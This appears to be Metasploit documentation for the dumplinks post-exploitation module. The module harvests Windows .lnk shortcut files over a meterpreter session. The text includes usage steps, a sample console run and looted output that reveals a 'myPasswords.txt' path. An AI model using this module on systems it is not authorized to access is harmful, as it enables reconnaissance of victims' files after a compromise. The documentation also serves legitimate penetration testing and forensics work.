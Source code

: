 
## Vulnerable Application

  The dumplinks module is a modified port of Harlan Carvey's lslnk.pl Perl script. This module will parse .lnk files from a user's Recent Documents folder and Microsoft Office's Recent Documents folder, if present. Windows creates these link files automatically for many common file types. The .lnk files contain time stamps, file locations, including share names, volume serial numbers, and more.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/windows/gather/dumplinks`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

  ```
  SESSION
  ```
  The session to run the module on.


## Scenarios

  ```
  [*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.10:49160) at 2019-12-11 15:45:16 -0700

  msf > use post/windows/gather/dumplinks
  msf post(windows/gather/dumplinks) > set SESSION 1
    SESSION => 1
  msf post(windows/gather/dumplinks) > run

    [*] Running module against TEST-PC
    [*] Extracting lnk files for user TEST at C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\...
    [*] Processing: C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk.
    [*] Processing: C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\Network and Internet.lnk.
    [*] No Recent Office files found for user TEST. Nothing to do.
    [*] Post module execution completed
  ```

## Example of looted .lnk output

  ```
  [*] exec: cat /root/.msf4/loot/20191211154832_default_192.168.1.10_host.windows.lnk_124491.txt

  C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk:
          Access Time       = 2019-12-11 23:44:39 -0700
          Creation Date     = 2019-12-11 23:44:39 -0700
          Modification Time = 2019-12-11 23:44:39 -0700
  Contents of C:\Users\TEST\AppData\Roaming\Microsoft\Windows\Recent\myPasswords.lnk:
          Flags:
                  Shell Item ID List exists.
                  Shortcut points to a file or directory.
                  The shortcut has a relative path string.
                  The shortcut has working directory.
          Attributes:
                  Target was modified since last backup.
          Target file's MAC Times stored in lnk file:
                  Creation Time     = 2019-12-11 23:44:30 -0700. (UTC)
                  Modification Time = 2019-12-11 23:44:30 -0700. (UTC)
                  Access Time       = 2019-12-11 23:44:30 -0700. (UTC)
          ShowWnd value(s):
                  SW_NORMAL.
                  SW_SHOWMAXIMIZED.
                  SW_SHOW.
                  SW_SHOWMINNOACTIVE.
                  SW_RESTORE.
        Target file's MAC Times stored in lnk file:
                  Creation Time     = 2019-12-11 23:44:30 -0700. (UTC)
                  Modification Time = 2019-12-11 23:44:30 -0700. (UTC)
                  Access Time       = 2019-12-11 23:44:30 -0700. (UTC)
        Shortcut file is on a local volume.
                  Volume Name =
                  Volume Type = Fixed
                  Volume SN   = 0x548EF20B
        Target path = C:\Users\TEST\Desktop\myPasswords.txt&..\..\..\..\..\Desktop\myPasswords.txtC:\Users\TEST\Desktop(
      ```
